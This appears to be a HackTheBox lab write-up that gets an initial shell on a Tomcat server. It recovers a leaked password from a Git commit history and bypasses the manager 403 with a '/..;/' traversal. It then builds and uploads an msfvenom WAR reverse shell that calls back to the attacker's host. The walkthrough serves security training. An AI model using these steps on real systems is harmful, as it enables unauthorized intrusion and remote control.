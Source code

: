 #  Getting Initial shell as tomcat
## Made account on gitbucket on http://10.10.10.250:8080/
![[Pasted image 20210928100501.png]]
## Logging in gitbucket as newly created user 'clarkey'
![[Pasted image 20210928100649.png]]
## http://10.10.10.250/manager/html giving 403 forbidden
http://10.10.10.250/manager/html giving 403 forbidden. We need to bypass 403 forbidden to access http://10.10.10.250/manager/html.
![[Pasted image 20210928100947.png]]
## http://10.10.10.250/manager/status is asking for password 
http://10.10.10.250/manager/status is asking for password which is found in tomcat-users.xml
![[Pasted image 20210928101336.png]]
## FInding  password in commit history of tomcat-users.xml
Found password in commit history of tomcat-users.xml.
![[Pasted image 20210928101714.png]]
## Using above password to access http://10.10.10.250/manager/status
![[Pasted image 20210928101940.png]]
## [exploit](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)  arises when both nginx and tomcat are used 
[exploit] arisis (https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) when both nginx and tomcat are used as it is evident from issue in root/seal_market repository.
![[Pasted image 20210928102322.png]]
## Accessing http://10.10.10.250/manager/html using [exploit](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)
http://10.10.10.250/manager/html can be accessed using [exploit](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/). First we can access known url that works like http://10.10.10.250/manager/status then use directory traversal on this url to bypass 403 forbidden like http://10.10.10.250/manager/status/..;/html (`/..;/` is used to traverse tomcat resources/directories which includes `;`, not `/../` ) like below screenshot.
![[Pasted image 20210928103529.png]]
## using msfvenom to create `war` reverse shell
Using command `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.98 LPORT=1234 -f war -o sh.war` to get war reverse shell.
![[Pasted image 20210928103728.png]]
## uploading war file `sh.war` using burp suite repeater
![[Pasted image 20210928104229.png]]
![[Pasted image 20210928104539.png]]
## Getting initial shell as tomcat user via running war file on url https://10.10.10.250/sh/ 
Getting initial shell as tomcat user via running war file on url https://10.10.10.250/sh/ (where sh is name of war reverse shell).
![[Pasted image 20210928104900.png]]

